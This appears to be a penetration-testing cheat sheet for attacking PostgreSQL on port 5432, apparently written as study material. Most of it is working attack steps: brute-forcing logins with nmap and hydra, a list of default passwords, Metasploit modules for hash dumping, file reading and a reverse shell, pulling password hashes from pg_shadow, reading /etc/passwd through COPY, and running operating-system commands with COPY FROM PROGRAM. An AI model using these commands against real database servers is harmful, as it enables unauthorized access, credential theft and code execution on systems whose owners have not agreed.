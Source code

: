 ```yaml
---
description: >-
  PostgreSQL is an open source database which can be found mostly in Linux
  operating systems.
---
```


# 5432 - PostgresSQL

PostgreSQL is an open source database which can be found mostly in Linux operating systems. However it has great compatibility with multiple operating systems and it can run in Windows and MacOS platforms as well. If the database is not properly configured and credentials have been obtained then it is possible to perform various activities like read and write system files and execution of arbitrary code.

## Enumeration

### Nmap

**Version disclosure** 

`Use nmap -sV -p 5432 10.0.0.1`

**Bruteforce credentials:**

`nmap -p 5432 --script pgsql-brute` 

### Metasploit

**Version disclosure** 

`auxiliary/scanner/postgres/postgres_version` 

**Bruteforce login:** 

`auxiliary/scanner/postgres/postgres_login` 

**Dump scheme:** 

`auxiliary/scanner/postgres/postgres_schemadump` 

**Database enumeration:** 

`auxiliary/admin/postgres/postgres_sql` 

**Hashdump:** 

`auxiliary/scanner/postgres/postgres_hashdump` 

**Read files:** 

`auxiliary/admin/postgres/postgres_readfile` 

**Reverse shell** 

`exploit/linux/postgres/postgres_payload` 

## Login

Login using psql:

`psql -h 192.168.100.11 -U postgres`

## Common/default credentials

| Username | Password |
| :--- | :--- |
| postgres | postgres  |
| postgres  | password  |
| postgres  | admin |
| admin | admin |
| admin | password |

### Bruteforce login credentials:

```text
hydra -L /root/Desktop/user.txt –P /root/Desktop/pass.txt 192.168.1.120 postgres
```

## Commands

<table>
  <thead>
    <tr>
      <th style="text-align:left">Description</th>
      <th style="text-align:left">Command</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td style="text-align:left">List databases</td>
      <td style="text-align:left">\l</td>
    </tr>
    <tr>
      <td style="text-align:left">List databases users</td>
      <td style="text-align:left">\du</td>
    </tr>
    <tr>
      <td style="text-align:left">List existing tables</td>
      <td style="text-align:left">\dt</td>
    </tr>
    <tr>
      <td style="text-align:left">Connect to a specific database</td>
      <td style="text-align:left">\c database_name;</td>
    </tr>
    <tr>
      <td style="text-align:left">Get detailed information on a table</td>
      <td style="text-align:left">\d+ table_name</td>
    </tr>
    <tr>
      <td style="text-align:left">Get table content</td>
      <td style="text-align:left">select * from table_name;</td>
    </tr>
    <tr>
      <td style="text-align:left">Retrieving database passwords</td>
      <td style="text-align:left">
        <p>SELECT * FROM users;</p>
        <p>OR
          <br />select usename, passwd from pg_shadow</p>
      </td>
    </tr>
    <tr>
      <td style="text-align:left">Dumping databases content</td>
      <td style="text-align:left">
        <p>SELECT usename, passwd FROM pg_shadow;
          <br />OR</p>
        <p>pg_dump --host=192.168.100.11 --username=postgres --password --dbname=template1
          --table=&apos;users&apos; -f output_pgdump</p>
      </td>
    </tr>
    <tr>
      <td style="text-align:left">Create a new database</td>
      <td style="text-align:left">CREATE DATABASE [IF NOT EXISTS] db_name;</td>
    </tr>
    <tr>
      <td style="text-align:left">exit the database</td>
      <td style="text-align:left">\q</td>
    </tr>
  </tbody>
</table>## Command execution

PostgreSQL databases can interact with the underlying operating by allowing the database administrator to execute various database commands and retrieve output from the system. 

Run: 

`postgres=# select pg_ls_dir('./');` 

By executing the following command it is possible to read server side postgres files. 

`postgres=# select pg_read_file('PG_VERSION', 0, 200);` 

It is also possible to create a database table in order to store and view contents of a file that exist in the host. 

```text
postgres-# CREATE TABLE temp(t TEXT); 
postgres-# COPY temp FROM '/etc/passwd'; 
postgres-# SELECT * FROM temp; 
```

OR use the metasploit module 

`Auxiliary/admin/postgres/postgres_readfile` 

### Execute command

```text
CREATE TABLE cmd_exec(cmd_output text);
COPY cmd_exec FROM PROGRAM 'sudo -l';
SELECT * FROM cmd_exec;

```

